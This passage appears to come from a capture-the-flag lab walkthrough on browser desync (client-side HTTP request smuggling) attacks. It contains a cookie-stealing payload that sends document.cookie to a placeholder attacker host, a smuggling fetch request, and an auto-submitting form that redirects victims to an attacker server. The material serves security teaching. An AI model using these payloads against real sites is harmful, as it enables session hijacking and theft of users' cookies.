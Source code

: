 We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encodingÂ MIMEÂ type since we don't want to encode the second malicious request.  
Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.  
To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.  
  

To do so, we can set up a rogue server by serving a route with a malicious payload likeÂ `fetch('http://YOUR_IP/' + document.cookie);`  

Be ready for the challenge in the next task; you will have to solve it using this exploit!

# Challenge Help
---

In this task, we will look for a possible way to solve the challenge of the previous task.  

Firstly, you have to add in your /etc/hosts file the following entry:  

`MACHINE_IP challenge.thm`

It can be observed that utilizing the given payload and refreshing the page results in a 404 error page. This indicates that the web server is vulnerable to request smuggling browser desync.

```python
fetch('http://challenge.thm/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})
```

Next, we can observe that the contact page does not correctly sanitize text input, potentially allowing us to send an arbitrary payload.

![Browser Desync Attack Vulnerable Functionality](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/dff30d90a55e2ae46ef41aea01194e96.png)

VistingÂ Â [http://challenge.thm/securecontact](http://challenge.thm/securecontact)Â you can notice that the input from the message field is reflected but is not interpreted:  
  

![Browser Desync Attack Secure Contact](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/ba1ae0a040c95ada5fcd3e3bbc44e28c.png)

  

The victim will instead visit another pageÂ [http://challenge.thm/vulnerablecontact](http://challenge.thm/vulnerablecontact)Â where the input will be interpreted.  

![Browser Desync Attack Contact Vulnerable](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/a2834f4fe56b297a57576c0f6d4992b6.png)  

  

Now, we just need to build our payload to redirect the victim user to fetch the second payload from our server:

```python
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
